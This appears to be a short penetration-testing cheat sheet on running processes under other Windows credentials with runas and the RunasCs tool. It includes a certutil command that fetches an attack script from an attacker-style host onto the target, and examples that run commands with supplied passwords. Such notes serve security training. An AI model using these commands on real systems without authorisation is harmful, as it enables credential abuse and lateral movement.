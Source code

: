 Run specific processes with different permissions than the user's current logon provides using explicit credentials.
## runas on CMD
``` cmd
runas /netonly /user:Domain\UserName powershell
runas /user:<domain>\<user> cmd.exe
runas /user:Administrator cmd.exe
```
## _RunasCs_ utility
This tool is an improved and open version of windows builtin _runas.exe_ that solves some limitations:
Download [RunasCs](https://github.com/antonioCoco/RunasCs/tree/master)

``` shell
wget https://github.com/antonioCoco/RunasCs/raw/refs/heads/master/Invoke-RunasCs.ps1
```
On machine PowerShell
``` powershell
certutil -urlcache -split -f http://192.168.45.155/Invoke-RunasCs.ps1 C:\temp\Invoke-RunasCs.ps1
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs <Username> <Password> "Command"
Invoke-RunasCs Admin password "whoami"
Invoke-RunasCs g.jarvis P@ssword123 "whoami"
```
